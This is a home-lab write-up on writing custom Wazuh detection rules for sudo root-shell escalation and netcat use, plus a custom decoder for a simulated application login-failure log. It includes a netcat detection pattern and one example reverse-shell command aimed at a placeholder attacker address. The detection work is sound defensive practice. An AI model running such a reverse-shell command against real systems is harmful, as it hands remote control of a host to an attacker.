# Custom Rules & Decoders — Building Detection From Scratch

Wrote custom Wazuh detection rules to catch privilege escalation and reverse shell tool usage, then built a custom decoder and rule set to parse and alert on a non-standard application log. This lab covers both halves of Wazuh's detection pipeline — rules that evaluate structured data, and decoders that create structured data from raw logs.

## Lab Environment

| VM | Role | IP |
|---|---|---|
| Ubuntu Server | Monitored Agent | 192.168.56.20 |
| Ubuntu Wazuh Server | SIEM Manager | 192.168.56.50 |

## How Wazuh Detection Works

Wazuh processes logs in three phases:

1. **Pre-decoding** — Extracts basic syslog fields (timestamp, hostname, program name) from the raw log
2. **Decoding** — Matches the log to a decoder that extracts structured fields (user, IP, command, action)
3. **Rule evaluation** — Evaluates the structured fields against rules to determine if an alert should fire

Custom rules let you build new detection logic on top of existing decoders. Custom decoders let you teach Wazuh how to parse log sources it doesn't natively understand. This lab demonstrates both.

## Part 1: Custom Rules

### Understanding the Base Rule

Both custom rules chain off Wazuh's built-in rule **5402** — "Successful sudo to ROOT executed." This rule lives in `0020-syslog_rules.xml` and fires whenever a user successfully runs a command via sudo as root:



Rule 5402 is level 3 — it logs the event but doesn't raise an alarm. Our custom rules build on top of it to catch specific high-risk sudo commands and elevate them to actionable alerts.

### Writing the Rules

Created two custom rules in `/var/ossec/etc/rules/local_rules.xml` on the Wazuh server. Custom rule IDs start at 100000 to avoid conflicts with built-in rules:



**Rule 100010** (level 10) — Detects sudo escalation to an interactive root shell (`sudo su`, `sudo bash`). Uses `<if_sid>5402</if_sid>` to chain off the base sudo rule, then `<match>` checks if the command was `su` or `bash`. Mapped to MITRE **T1548.003** (Sudo and Sudo Caching) under the Privilege Escalation tactic.

```xml
<rule id="100010" level="10">
  <if_sid>5402</if_sid>
  <match>COMMAND=/usr/bin/su|COMMAND=/bin/bash|COMMAND=/usr/bin/bash|COMMAND=/bin/su</match>
  <description>Sudo escalation to interactive root shell detected.</description>
  <mitre>
    <id>T1548.003</id>
  </mitre>
  <group>privilege_escalation,</group>
</rule>
```

**Rule 100011** (level 12) — Detects netcat/ncat execution via sudo, a common reverse shell technique. Level 12 (critical) because there's rarely a legitimate reason to run netcat as root. Mapped to MITRE **T1059.004** (Unix Shell) under the Execution tactic.

```xml
<rule id="100011" level="12">
  <if_sid>5402</if_sid>
  <match>COMMAND=/usr/bin/ncat|COMMAND=/usr/bin/nc|COMMAND=/bin/nc|COMMAND=/usr/bin/netcat</match>
  <description>Netcat/Ncat execution via sudo — possible reverse shell.</description>
  <mitre>
    <id>T1059.004</id>
  </mitre>
  <group>exploit_attempt,</group>
</rule>
```

Restarted the Wazuh manager to load the new rules:



### Testing Rule 100010 — Sudo Escalation

Ran `sudo su` on the Ubuntu agent to trigger a root shell escalation:



> **Note:** The initial test didn't produce alerts. The issue was that only the Wazuh manager had been restarted — the agent also needed a restart. Full diagnosis and fix documented in [troubleshooting/custom-rules-not-firing.md](troubleshooting/custom-rules-not-firing.md).

After restarting the agent, the dashboard showed the full detection chain — rule 5402 ("Successful sudo to ROOT executed") fired first at level 3, then custom rule 100010 ("Sudo escalation to interactive root shell detected") chained off it at level 10:



Expanding the 100010 alert shows the full context: `srcuser: bader`, `dstuser: root`, `command: /usr/bin/su`, MITRE technique T1548.003 (Sudo and Sudo Caching), and tactics Privilege Escalation and Defense Evasion:



### Testing Rule 100011 — Netcat Detection

Confirmed netcat was installed on the Ubuntu agent (`/usr/bin/nc`), then triggered the rule:



```bash
sudo nc -h
```

The command itself is harmless — just printing help output — but the sudo + netcat combination is what triggers the alert. In a real scenario, an attacker would run something like `sudo nc -e /bin/bash attacker_ip 4444` to establish a reverse shell.



Rule 100011 fired immediately at level 12 — the highest severity alert in this lab:



The alert detail shows `command: /usr/bin/nc -h`, MITRE technique T1059.004 (Unix Shell), tactic Execution, and the `exploit_attempt` group tag:



### MITRE ATT&CK — Custom Rules

The MITRE ATT&CK framework tab shows both custom rule techniques registered alongside Wazuh's built-in detections:

- **T1548.003 — Sudo and Sudo Caching** (2 hits) — from rule 100010
- **T1059.004 — Unix Shell** (1 hit) — from rule 100011



## Part 2: Custom Decoder

Custom rules build on existing detections. A custom decoder is different — it teaches Wazuh how to parse a log format it has never seen before. Without a decoder, logs arrive as raw text and no rules can evaluate them.

### Creating the Log Source

Created a simulated application log on the Ubuntu agent:

```bash
sudo mkdir -p /var/log/myapp
sudo bash -c 'echo "2026-03-17T19:00:00 myapp: LOGIN_FAILED user=admin src=10.0.0.5 reason=invalid_password" >> /var/log/myapp/app.log'
```



Then added a `<localfile>` block to the agent's `ossec.conf` to tell Wazuh to collect this log:

```xml
<localfile>
  <log_format>syslog</log_format>
  <location>/var/log/myapp/app.log</location>
</localfile>
```



### Writing the Decoder

Created a custom decoder in `/var/ossec/etc/decoders/local_decoder.xml` on the Wazuh server:



**Parent decoder** — Identifies myapp logs by matching the string `myapp:` in the log content using `<prematch>`. This is more reliable than `<program_name>` for logs with non-standard timestamp formats.

**Child decoder** — Uses regex to extract four fields from the log body: the action (`LOGIN_FAILED`), the target user (`admin`), the source IP (`10.0.0.5`), and the reason (`invalid_password`). These map to Wazuh's standard field names (`action`, `dstuser`, `srcip`, `extra_data`) so rules can reference them.

```xml
<decoder name="myapp">
  <prematch>myapp:</prematch>
</decoder>

<decoder name="myapp-fields">
  <parent>myapp</parent>
  <regex>(\w+) user=(\S+) src=(\S+) reason=(\S+)</regex>
  <order>action, dstuser, srcip, extra_data</order>
</decoder>
```

> **Note:** The decoder originally used `<program_name>myapp</program_name>` instead of `<prematch>`, which failed because the ISO 8601 timestamp format prevented Wazuh's pre-decoder from extracting the program name. Full diagnosis in [troubleshooting/decoder-prematch-fix.md](troubleshooting/decoder-prematch-fix.md).

### Writing the Rules

Added two rules for the myapp log source to `local_rules.xml`, below the existing sudo rules:



**Rule 100020** (level 3) — Base rule that catches any log decoded by the `myapp` decoder using `<decoded_as>`. Low severity, just logs it.

**Rule 100021** (level 10) — Chains off 100020 and fires when the log contains `LOGIN_FAILED`. Mapped to MITRE **T1078** (Valid Accounts) because failed logins to an application suggest credential testing.

```xml
<rule id="100020" level="3">
  <decoded_as>myapp</decoded_as>
  <description>MyApp event detected.</description>
</rule>

<rule id="100021" level="10">
  <if_sid>100020</if_sid>
  <match>LOGIN_FAILED</match>
  <description>MyApp: Failed login attempt detected.</description>
  <mitre>
    <id>T1078</id>
  </mitre>
  <group>authentication_failed,</group>
</rule>
```

### Validating with wazuh-logtest

Before going live, tested the full pipeline with `wazuh-logtest`. Pasted a sample log line and confirmed all three phases worked:

- **Phase 1** — Pre-decoding ingested the raw log
- **Phase 2** — Custom decoder matched: `name: 'myapp'`, `action: 'LOGIN_FAILED'`, `dstuser: 'admin'`, `srcip: '10.0.0.5'`, `extra_data: 'invalid_password'`
- **Phase 3** — Rule 100021 fired at level 10 with MITRE T1078 mapped



Raw text in → structured fields extracted → alert generated. The complete Wazuh detection pipeline.

### Live Test

Generated two test log entries with different users and source IPs:



Both triggered rule 100021 in the dashboard:



Expanding the alert for the first entry shows the decoder extracted every field correctly — `srcip: 10.0.0.5`, `dstuser: admin`, `action: LOGIN_FAILED`, `extra_data: invalid_password` — with the full log preserved in `full_log` and the source file in `location: /var/log/myapp/app.log`:



The second alert shows different values — `srcip: 192.168.1.100`, `dstuser: root`, `extra_data: account_locked` — proving the decoder handles varying field content, not just one hardcoded pattern:

[100021 account locked detail](screenshots/100021-alert-account-locked-details-json.png)

### MITRE ATT&CK — Custom Decoder

The MITRE framework tab shows T1078 (Valid Accounts) with hits from our custom rule 100021, alongside the existing detections from previous labs:



## Custom Rules Summary

| Rule ID | Level | Description | Chains Off | MITRE | Group |
|---|---|---|---|---|---|
| 100010 | 10 | Sudo escalation to interactive root shell | 5402 | T1548.003 | privilege_escalation |
| 100011 | 12 | Netcat/Ncat execution via sudo | 5402 | T1059.004 | exploit_attempt |
| 100020 | 3 | MyApp event detected (base rule) | — | — | local, myapp |
| 100021 | 10 | MyApp: Failed login attempt detected | 100020 | T1078 | authentication_failed |

## Windows Note

These rules and decoders target Linux. The equivalent on Windows would be writing rules that chain off Windows Event Log rules — for example, detecting PowerShell execution with suspicious arguments (Event ID 4104) or users added to the Administrators group (Event ID 4732). The concept is identical: `<if_sid>` chaining, `<match>` patterns, MITRE mapping — just different base rules and log formats.

## Troubleshooting

Two issues were encountered and resolved during this lab:

- [Custom rules not firing](troubleshooting/custom-rules-not-firing.md) — After adding rules, both the manager and agent must be restarted for detection to work
